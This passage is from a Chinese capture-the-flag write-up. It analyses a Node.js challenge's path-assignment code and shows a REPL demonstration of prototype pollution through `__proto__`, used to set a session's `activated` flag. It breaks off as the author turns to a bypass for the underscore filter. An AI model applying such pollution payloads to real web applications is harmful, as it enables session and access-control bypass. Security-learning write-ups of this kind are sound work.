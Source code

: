 我们的目标是让 `req.session.activated` 变成非空的一个东西。瞄一眼 `demo.json`:

```json
[
  {
    "name": "Foo",
    "age": 24,
    "type": "student"
  },
  {
    "name": "Bar",
    "age": 17,
    "type": "monster"
  }
]
```

`age` 应该是满足要求的，所以 `in_path=1/age`，之后是 `output` 的处理：

```js
let output = {};
//（省略）
let cur = output;
for(let term of out_path.slice(0, out_path.length-1)) {
    if(term.indexOf('_')!==-1) {
        res.send('Bad parameter!');
        return;
    }
    // no eval for out_path :)
    /*
    if(eval_mode && /^\([^a-zA-Z"',;]+\)$/.test(term))
        term = safe_eval(term);
    */
    if(cur[term]===undefined)
        cur[term] = {};
    cur = cur[term];
}
cur[out_path[out_path.length-1]] = data;
```

`data` 是 `in_path` 过滤后的结果。我们的目标是让最后原型被赋值为 `24`。先在 REPL 里头试试：

```shell
$ node
Welcome to Node.js v17.0.1.
Type ".help" for more information.
> session = {}
{}
> {}['__proto__']['activated'] = 24
24
> session.activated
24
```

但是这个 payload 用不了，因为会检查有没有 `_`，而且不好绕过。那换一个：
